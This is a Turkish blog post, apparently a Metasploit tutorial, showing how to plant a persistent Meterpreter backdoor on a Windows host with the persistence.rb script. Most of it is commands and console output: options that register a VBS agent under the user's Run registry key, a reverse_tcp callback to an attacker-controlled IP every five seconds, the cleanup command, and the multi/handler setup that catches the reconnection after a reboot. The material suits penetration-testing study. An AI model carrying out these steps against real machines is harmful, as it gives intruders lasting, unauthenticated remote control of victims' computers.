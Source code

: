 ```yaml
---
draft: false

title:  'MSF Meterpreter Kalıcı Backdoor'
date: '2017-06-15T13:57:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Hedef sistemde oturum açtıktan sonra kalıcılık sağlamak için Metasploit Framework içinde kullanabileceğiniz bir diğer yöntem de\_persistence.rb\_script kodunu kullanmaktır." 
 
url:  /tr/msf-meterpreter-kalici-backdoor/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```

## Persistence.rb

Hedef sistemde oturum açtıktan sonra kalıcılık sağlamak için Metasploit Framework içinde kullanabileceğiniz bir diğer yöntem de `persistence.rb` script kodunu kullanmaktır.

Bu yöntem sayesinde, hedef bilgisayar güncellense bile tekrar bağlanma imkanınız bulunmaktadır. Ayrıca, hedef sistemin tekrar başlatılması da bağlantı yapmayı etkilemeyecektir.

Bir önceki konuda, `metsvc` için yaptığımız uyarıyı burada da tekrarlayalım. `persistence.rb` arka kapısı, bağlantı için herhangi bir oturum bilgisi kullanmaz. Bu açıklığı keşfeden herkes bağlantı sağlayabilir.

Hedef sistemde meterpreter oturum açtıktan sonra `persistence.rb` script kodunu kullanmadan önce yardım bilgilerini görüntüleyelim ve bize hangi imkanları sağladığını görelim.
```bash
meterpreter > run persistence -h

**[!]** Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
**[!]** Example: run post/windows/manage/persistence_exe OPTION=value [...]
Meterpreter Script for **creating a persistent backdoor on a target host.

OPTIONS:

    -A   Automatically start a matching exploit/multi/handler to connect to the agent
    -L   Location **in **target host to write payload to, **if **none %TEMP% will be used.
    -P   Payload to use, default is windows/meterpreter/reverse_tcp.
    -S   Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T   Alternate executable template to use
    -U   Automatically start the agent when the User logs on
    -X   Automatically start the agent when the system boots
    -h   This help menu
    -i   The interval **in **seconds between each connection attempt
    -p   The port on which the system running Metasploit is listening
    -r   The IP of the system running Metasploit listening for the connect back
```

Aşağıdaki `persistence -U -i 5 -p 443 -r 192.168.1.71` komutu hangi işlemleri yapıyor?

`-U`, bir kullanıcı oturum açtığında bizim bilgisayarımıza otomatik bağlantı yapılmasını sağlar.

`-i 5` Karşe taraftaki `persistence.rb` script kodu her 5 saniyede bir bize bağlanmaya çalışır.

`-p 443` bizim dinleme yapan bilgisayarımızın dinleme yaptığı port numarasıdır.

`-r 192.168.1.71` bizim dinleme yapan bilgisayarımızın IP numarasıdır.
```bash
meterpreter > run persistence -U -i 5 -p 443 -r 192.168.1.71
> Creating a persistent agent: LHOST=192.168.1.71 LPORT=443 (interval=5 onboot=true)
> Persistent agent script is 613976 bytes long
> Uploaded the persistent agent to C:\WINDOWS\TEMP\yyPSPPEn.vbs
> Agent executed with PID 492
> Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
> Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
> For cleanup use command: run multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
meterpreter >
```

Verdiğimiz komut sonucunda başlatılan script, çıktılarda da görüleceği gibi işimiz tamamlandığında log temizleme işleminin nasıl yapılabileceğini de gösteriyor.
```bash
multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
```

Scriptin çalışıp çalışmadığını ve otomatik bağlantı yapıp yapmadığını, hedef bilgisayarı tekrar başlatarak anlayabiliriz. Hedef bilgisayarı yeniden başlatalım.
```bash
meterpreter > reboot
Rebooting...
meterpreter > exit

> Meterpreter session 3 closed.  Reason: User exit
```

Dinleyici `exploit/multi/handler` modülünü tekrar başlatalım.
```bash
msf exploit(ms08_067_netapi) > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.71
LHOST => 192.168.1.71
msf exploit(handler) > set LPORT 443
LPORT => 443
msf exploit(handler) > exploit

> Started reverse handler on 192.168.1.71:443
> Starting the payload handler...
```

Hedef bilgisayar tekrar başladığında, oturum açılır açılmaz yerel bilgisayara bağlantı, aşağıda görüldüğü gibi tekrar sağlanacaktır.
```bash
> Sending stage (748544 bytes) to 192.168.1.161
> Meterpreter session 5 opened (192.168.1.71:443 -> 192.168.1.161:1045) at 2010-08-21 12:31:42 -0600

meterpreter > sysinfo
Computer: XEN-XP-SP2-BARE
OS      : Windows XP (Build 2600, Service Pack 2).
Arch    : x86
Language: en_US
meterpreter >```
